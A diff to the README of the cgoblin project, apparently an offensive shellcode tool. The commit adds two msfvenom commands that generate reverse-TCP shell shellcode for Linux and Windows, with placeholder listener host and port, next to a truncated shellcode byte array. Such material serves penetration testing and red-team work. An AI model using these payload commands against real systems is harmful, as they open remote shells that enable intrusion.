

Before and after one commit to grisuno/cgoblin, a Markdown page: README.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/README.md
+++ b/README.md
@@ -94,7 +94,16 @@ unsigned char buf[] = "\x6a\x29\x58\x99\x...";
 
 <img width="331" height="873" alt="image" src="https://github.com/user-attachments/assets/9c92957f-c060-47f5-865f-a01c8e5a767b" /> <img width="358" height="815" alt="image" src="https://github.com/user-attachments/assets/af8fc684-ccc7-47b8-a0d5-ebec36decb79" />
 
-
+```bash
+# shellcode
+# Example Linux
+msfvenom -p linux/x64/shell_reverse_tcp LHOST={lhost} LPORT={lport} -f c -o shellcode_test.txt
+```
+```bash
+# shellcode
+# Example Windows
+msfvenom -p windows/x64/shell_reverse_tcp LHOST={lhost} LPORT={lport} -f c -o shellcode_test.txt
+```
 
 ```text
 # Tree
````
